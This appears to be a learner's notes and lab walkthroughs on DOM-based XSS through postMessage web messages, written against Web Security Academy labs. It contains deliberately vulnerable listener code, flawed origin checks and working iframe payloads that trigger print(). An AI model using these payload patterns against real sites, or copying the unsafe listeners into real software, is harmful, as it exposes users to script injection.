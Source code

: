 # Controlling the web message source

- If a page handles incoming web messages in an unsafe way, for example, by not verifying the origin of incoming messages correctly in the event listener, properties and functions that are called by the event listener can potentially become sinks. 
- For example, an attacker could host a malicious iframe and use the postMessage() method to pass web message data to the vulnerable event listener, which then sends the payload to a sink on the parent page. 
- This behavior means that you can use web messages as the source for propagating malicious data to any of those sinks.

# What is the impact of DOM-based web message vulnerabilities?
- The potential impact of the vulnerability depends on the destination document's handling of the incoming message. 
- If the destination document trusts the sender not to transmit malicious data in the message, and handles the data in an unsafe way by passing it into a sink, then the joint behavior of the two documents may allow an attacker to compromise the user, for example.

# How to construct an attack using web messages as the source
- Consider the following code:
```
<script>
window.addEventListener('message', function(e) {
  eval(e.data);
});
</script>
```
- This is vulnerable because an attacker could inject a JavaScript payload by constructing the following iframe:

```
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">
```
- As the event listener does not verify the origin of the message, and the postMessage() method specifies the targetOrigin "*", the event listener accepts the payload and passes it into a sink, in this case, the eval() function.


```
<iframe src="//0ab7003f03eb687b80c1039c0073001e.web-security-academy.net" onload="this.contentWindow.postMessage('print()','*')">
```

# Lab: DOM XSS using web messages
- This lab demonstrates a simple web message vulnerability. 
- To solve this lab, use the exploit server to post a message to the target site that causes the print() function to be called.
- This lab was suppose to be easy for me, but I coud not solve it
- So I made used of DOM invader and I noticed that the contecxt was div
- So in the DOM invader, I inserted this ```img src='x' onerror='(print())'
- So Dom invader gave me the following payload  
```
        <!doctype html>
        <html>
            <head>
                <!-- DOM XSS PoC - generated by DOM Invader part of Burp Suite -->
                <meta charset="UTF-8" />
                <title>Postmessage PoC</title>
                <script>
                    function pocLink() {
                        let win = window.open('https://0a84003b034f453c82827efb00d70013.web-security-academy.net/');
                        let msg = "u1kjte2o0-\\\u003c\u003e'\":\u003cimg src='x' onerror='print()'\u003e";
                        
                        setTimeout(function(){
                            win.postMessage(msg, '*');
                        }, 5000);
                    }
                    function pocFrame(win) {           
                        let msg = "u1kjte2o0-\\\u003c\u003e'\":\u003cimg src='x' onerror='print()'\u003e";
                        
                        win.postMessage(msg, '*');          
                    }
                </script>
            </head>
            <body>
                <a href="#" onclick="pocLink();">PoC link</a>          
                <iframe src="https://0a84003b034f453c82827efb00d70013.web-security-academy.net/" onload="pocFrame(this.contentWindow)"></iframe>                    
            </body>
        </html>
```
- The lab was solved on delevering to victim

# Lab: DOM XSS using web messages and a JavaScript URL
- This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. 
- To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.

```
<iframe src="https://0ae4003c04b07f1b815639c8003000fc.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')"></iframe>
```
- This lab was solved with the above payload because the javasript was checking if http: or https was present in the href.
- The // commented out the http to allow the javascript stand alone.
- The lab before this can also be solved using this

# Origin verification
- Even if an event listener does include some form of origin verification, this verification step can sometimes be fundamentally flawed. 
- For example, consider the following code:
```
window.addEventListener('message', function(e) {
    if (e.origin.indexOf('normal-website.com') > -1) {
        eval(e.data);
    }
});
```
- The indexOf method is used to try and verify that the origin of the incoming message is the normal-website.com domain. 
- However, in practice, it only checks whether the string "normal-website.com" is contained anywhere in the origin URL. 
- As a result, an attacker could easily bypass this verification step if the origin of their malicious message was http://www.normal-website.com.evil.net, for example.

- The same flaw also applies to verification checks that rely on the startsWith() or endsWith() methods. 
- For example, the following event listener would regard the origin http://www.malicious-websitenormal-website.com as safe:
```
window.addEventListener('message', function(e) {
    if (e.origin.endsWith('normal-website.com')) {
        eval(e.data);
    }
});
```

# Lab: DOM XSS using web messages and JSON.parse
- This lab uses web messaging and parses the message as JSON. 
- To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.
- The lab has the following javascript code
```
<script>
window.addEventListener('message', function(e) {
                            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
                            document.body.appendChild(iframe);
                            try {
                                d = JSON.parse(e.data);
                            } catch(e) {
                                return;
                            }
                            switch(d.type) {
                                case "page-load":
                                    ACMEplayer.element.scrollIntoView();
                                    break;
                                case "load-channel":
                                    ACMEplayer.element.src = d.url;
                                    break;
                                case "player-height-changed":
                                    ACMEplayer.element.style.width = d.width + "px";
                                    ACMEplayer.element.style.height = d.height + "px";
                                    break;
                            }
                        }, false);
</script>                       
```
- It is using JSON.parse to parse in strings and turn it to json object
- So we can construct an html that looks like this
```
<iframe src="https://0aa500140328685f81f66cb000e4007c.web-security-academy.net/" onload="this.contentWindow.postMessage('{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}','*')"></iframe>
```
- Trying out the above code to see If it is going to work
- That does not work
- Lets try another payload
```
<iframe src="https://0aa500140328685f81f66cb000e4007c.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'></iframe>
```
- Lab was solved successfully

# Which sinks can lead to DOM-based web message vulnerabilities?
- As long as a website accepts web message data from an untrusted source due to a lack of adequate origin verification, any sinks that are used by the incoming message event listener could potentially lead to vulnerabilities.